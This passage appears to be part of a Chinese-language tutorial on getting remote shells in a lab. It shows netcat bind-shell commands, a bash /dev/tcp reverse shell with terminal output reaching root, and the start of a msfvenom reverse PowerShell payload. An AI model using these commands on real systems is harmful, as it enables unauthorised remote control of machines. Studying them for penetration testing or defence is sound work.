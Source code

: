     # 控制端  
    nc rhost rport
    
    
    # 失陷主机  
    > nc -lvp 4444 -c bash  
    listening on [any] 4444 ...  
    172.16.214.1: inverse host lookup failed: Unknown host  
    connect to [172.16.214.43] from (UNKNOWN) [172.16.214.1] 60635  
      
    # 控制端  
    > nc -v 172.16.214.43 4444  
    Connection to 172.16.214.43 port 4444 [tcp/krb524] succeeded!  
    whoami  
    root

 **结合其他语言进行反弹 shell**

    
    
    # 失陷主机  
    bash -i >& /dev/tcp/rhost/rport 0>&1  
      
    # 控制端  
    nc -lvp lprot
    
    
    # 失陷主机  
    > bash -i >& /dev/tcp/172.16.214.43/4444 0>&1  
      
    # 控制端  
    > nc -lp 4444  
    root@ubuntu:~# whoami  
    whoami  
    root

除了 bash 也可以使用其他的语言进行反弹 shell，这里可以使用 msfvenom 生成反弹 shell，操作起来比较方便，使用 `msfvenom
-l payload | grep "cmd/"`可查看可使用的 payload

比如使用 `cmd/windows/reverse_powershell` 这个 payload

    
    
    # 控制端  
    > msfvenom -p cmd/windows/reverse_powershell lhost=172.16.214.43 lport=4444  
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
    [-] No arch selected, selecting arch: cmd from the payload  
    No encoder specified, outputting raw payload  
    Payload size: 1586 bytes  